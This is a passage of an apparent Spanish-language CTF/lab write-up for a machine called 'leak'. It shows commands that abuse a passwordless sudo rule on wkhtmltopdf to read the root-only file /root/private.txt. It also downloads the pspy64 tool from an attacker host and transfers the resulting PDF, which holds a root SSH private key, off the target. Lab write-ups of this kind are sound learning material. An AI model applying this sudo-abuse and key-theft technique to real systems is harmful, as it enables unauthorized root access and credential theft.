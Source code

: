 ```bash
User george may run the following commands on leak:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
```
Esta aplicación permite extraer datos de una página HTML y convertirlos en archivos PDF o imágenes.

En este punto poca cosa mas encuentro, ejecutare **pspy64** que sirver para poder ver ejecuciones a las que no tenemos acceso con nuestro usuario.

```bash
george@leak:/tmp$ wget http://192.168.2.128/pspy64
--2024-04-07 01:11:30--  http://192.168.2.128/pspy64
Conectando con 192.168.2.128:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3104768 (3,0M) [application/octet-stream]
Grabando a: «pspy64»

pspy64                                                100%[======================================================================================================================>]   2,96M  --.-KB/s    en 0,01s   

2024-04-07 01:11:30 (292 MB/s) - «pspy64» guardado [3104768/3104768]
```
Le doy permisos y lo ejecuto

```bash
024/04/07 01:12:37 CMD: UID=0     PID=2      | 
2024/04/07 01:12:37 CMD: UID=0     PID=1      | /sbin/init 
2024/04/07 01:13:01 CMD: UID=0     PID=34884  | /usr/sbin/CRON -f 
2024/04/07 01:13:01 CMD: UID=0     PID=34885  | /usr/sbin/CRON -f 
2024/04/07 01:13:01 CMD: UID=0     PID=34886  | /bin/sh -c /usr/bin/file /root/private.txt 
```
Esto es interesante, hay un archivo *private.txt* en el directorio root, al que puedo convertir a pdf y ver que contiene.

```bash
george@leak:/tmp$ sudo /usr/bin/wkhtmltopdf /root/private.txt private.pdf
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
Printing pages (2/2)                                               
Done                                                           
george@leak:/tmp$ ls -la private.pdf 
-rw-r--r-- 1 root root 15944 abr  7 01:15 private.pdf
george@leak:/tmp$
```
Hay esta, me lo paso a mi maquina para ver que contiene.

```bash
wget http://192.168.2.8:1234/private.pdf
--2024-04-07 01:17:33--  http://192.168.2.8:1234/private.pdf
Conectando con 192.168.2.8:1234... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 15944 (16K) [application/pdf]
Grabando a: «private.pdf»

private.pdf                                           100%[======================================================================================================================>]  15,57K  --.-KB/s    en 0s      

2024-04-07 01:17:33 (321 MB/s) - «private.pdf» guardado [15944/15944]
```
Sorpresa sorpresa!! es una **id_rsa** imagino que de root y es lo que voy a probar
![id-rsa]({{'/assets/img/Leak/idrsa.png' | relative_url}})
